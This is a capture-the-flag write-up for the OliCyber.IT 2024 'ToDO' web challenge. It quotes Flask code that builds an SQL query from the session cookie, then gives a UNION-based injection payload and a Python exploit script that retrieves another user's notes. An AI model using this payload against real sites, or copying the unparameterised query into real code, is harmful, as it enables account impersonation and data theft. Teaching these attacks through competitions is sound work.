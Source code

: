 # OliCyber.IT 2024 - Regional CTF

## [web] ToDO (29 solves)

I wanted to learn some Python and Flask, nothing better than a todo app, that's what Reddit says!

Website: [http://todo.challs.territoriale.olicyber.it](http://todo.challs.territoriale.olicyber.it)

Author: Aleandro Prudenzano <@drw0if>

## Solution

The application is composed by a web server, implemented with Flask inside `app.py`, and a set of useful function to interact with the sqlite database, `db.py`. By analyzing the source code we can quickly notice that all the queries are not executed using prepared statements, but the variable parameters are directly formatted inside the query strings. This can lead to SQLinjection if the input parameters are not correctly escaped.

This indeed happens insie the function `get_user_from_session`:

```python
    def get_user_from_session(self, session_id):
        cursor = self.get_cursor()

        cursor.execute(
            """SELECT users.id, users.username
            FROM users
            JOIN sessions ON users.id = sessions.user_id
            WHERE sessions.id = '%s';""" % (session_id,))

        users = cursor.fetchall()
        cursor.close()

        if len(users) == 1:
            return users[0]

        return None
```

We can then perform a SQLinjection to alter the query and make it return back the tasks belonging to another user, just by using the correctly crafted payload, passed as a session cookie.

A possible payload is `' UNION SELECT id, username FROM users WHERE username='antonio' --`; with this payload, the query will give us back all data associated with the user `antonio`, who is the one containing the flag among its notes.

## Exploit

```python
#!/usr/bin/env python3

import logging
import os
import requests
import re

# For HTTP connection
URL = os.environ.get("URL", "http://todo.challs.territoriale.olicyber.it")
if URL.endswith("/"):
    URL = URL[:-1]


cookies = {
    "session": "' UNION SELECT id, username FROM users WHERE username='antonio' -- ",
}

r = requests.get(f"{URL}/todo", cookies=cookies)
flag = re.compile(r"flag\{.*\}").search(r.text)

if flag:
    print(flag.group())
else:
    print("Flag not found")
```
